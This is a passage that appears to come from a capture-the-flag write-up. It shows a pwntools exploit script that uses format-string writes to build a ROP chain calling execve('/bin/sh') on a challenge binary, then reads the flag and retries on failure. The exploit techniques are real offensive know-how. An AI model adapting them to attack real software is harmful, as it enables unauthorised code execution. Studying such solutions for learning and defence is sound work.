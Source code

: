 ```python

    def one_round(what, where):
        # Fix secret and write what at where
        io.sendafter(b"Who are you?", fmt_write_16_payload(what, where, 0x1c, fix_secret=True)[:-1])
        # Guess secret
        io.sendafter(b"What is the secret?", b"\x1c\x00")
        # Write ret address to re-call chall
        io.sendafter(b"Who are you?", fmt_write_16_payload(main_ret_bytes, stack_ret, 0x1f))

    # Write ROP chain
    POP_RAX_POP_RDX_POP_RBX = pie_base + 0x000000000008de8a
    POP_RDI = pie_base + 0x000000000000917f
    POP_RSI = pie_base + 0x00000000000111ee
    SYSCALL = pie_base + 0x0000000000021ec6
    GUESS_ADDR = stack_ret - 0x38

    ropchain = p64(GUESS_ADDR + 0x8)
    ropchain += p64(POP_RAX_POP_RDX_POP_RBX)
    ropchain += p64(0x3b)                       # rax = 0x3b (execve)
    ropchain += p64(0)                          # rdx = 0
    ropchain += p64(0)                          # rbx = 0
    ropchain += p64(POP_RSI)
    ropchain += p64(0)                          # rsi = 0
    ropchain += p64(SYSCALL)

    for i in range(0, len(ropchain), 2):
        what = u16(ropchain[i:i+2])
        where = stack_ret + 0x8 + i
        print(f"round: {i}, writing {hex(what)} at {hex(where)}")
        one_round(what, where)

    # Set return address to first rop gadget
    io.sendafter(b"Who are you?", b"%25$nAAA")
    guess = b"\x1c\x00AAAAAA/bin/sh\x00"
    io.sendafter(b"What is the secret?", guess)
    io.sendafter(b"Who are you?", fmt_write_16_payload(POP_RDI & 0xffff, stack_ret, 0x1f))

    if args.GDB:
        io.interactive()
        exit()

    io.sendline(b"cat flag")
    res = io.clean(1)
    io.close()

    if b"flag{" in res:
        flag = "flag{" + res.split(b"flag{")[1].split(b"}")[0].decode() + "}"
        print(flag)
        break

    print("exploit failed, retrying...")

```
